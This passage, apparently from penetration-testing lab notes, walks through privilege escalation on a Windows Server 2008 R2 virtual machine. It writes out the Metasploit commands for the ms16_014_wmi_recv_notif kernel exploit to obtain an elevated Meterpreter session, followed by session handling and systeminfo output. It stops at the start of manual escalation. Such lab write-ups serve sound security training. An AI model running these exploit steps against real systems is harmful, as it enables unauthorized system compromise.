 - `e.g.` [Windows WMI Receive Notification Exploit - ms16_014_wmi_recv_notif](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_014_wmi_recv_notif/)
  - *This module exploits an uninitialized stack variable in the WMI subsystem of ntoskrnl*

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION 7
set LPORT 4422
exploit
```

![Metasploit ms16_014_wmi_recv_notif](.gitbook/assets/image-20230315163942198.png)

![Privileged Meterpreter Success](.gitbook/assets/image-20230315164013534.png)

- By using a kernel exploit for this specific version of Windows O.S., the attacker is able to get a `meterpreter` session with **elevated privileges.**

```bash
background
sessions
```

![Current sessions](.gitbook/assets/image-20230315164442277.png)

### Manual Privilege Escalation

```bash
sessions 7
shell

systeminfo
```

```bash
systeminfo

Host Name:                 WINSRV2008
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84620
Original Install Date:     14/03/2023, 17:23:02
System Boot Time:          15/03/2023, 15:31:32
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 9 GenuineIntel ~4200 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             it;Italian (Italy)
Input Locale:              it;Italian (Italy)
Time Zone:                 (UTC+01:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.391 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.399 MB
Virtual Memory: In Use:    696 MB
Page File Location(s):     C:\pagefile.sys
```